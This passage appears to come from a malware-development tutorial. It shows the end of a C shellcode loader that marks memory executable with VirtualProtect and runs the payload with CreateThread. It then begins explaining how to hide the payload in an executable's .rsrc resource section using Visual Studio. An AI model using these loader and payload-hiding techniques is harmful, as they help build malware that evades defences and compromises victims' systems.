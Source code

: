 ```c
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

### <mark style="color:orange;">**.RSRC Section**</mark>

the `.rsrc` section refers to the resource section. this section stores various types of resources that an executable or DLL file might need at runtime, such as icons, bitmaps, strings, dialogs, version information, and more.

to store the payload in resources section, we have to add our custom resource file to the VS project:



Right click on the `Resource Files` in Solution Explorer and select `Add > Resource:`

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
